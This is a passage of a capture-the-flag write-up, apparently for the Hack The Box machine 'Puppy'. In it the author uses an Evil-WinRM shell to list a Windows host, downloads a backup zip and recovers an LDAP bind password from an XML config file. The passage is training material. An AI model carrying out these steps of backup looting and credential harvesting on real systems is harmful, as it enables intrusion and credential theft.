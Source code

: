 There is a Backups folder in `c:\`.

```bash
*Evil-WinRM* PS C:\> dir

    Directory: C:\
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         7/24/2025  12:30 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows
```

This zip file is interesting.

```bash
*Evil-WinRM* PS C:\Backups> dir

    Directory: C:\Backups

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
```

I download it.

```bash
*Evil-WinRM* PS C:\Backups> download "C:/Backups/site-backup-2024-12-30.zip"

Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command

Info: Downloading C:/Backups/site-backup-2024-12-30.zip to site-backup-2024-12-30.zip

Info: Download successful!
```

After unzipping it, I find new credentials in an XML file.

```xml
# cat nms-auth-config.xml.bak

<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
```
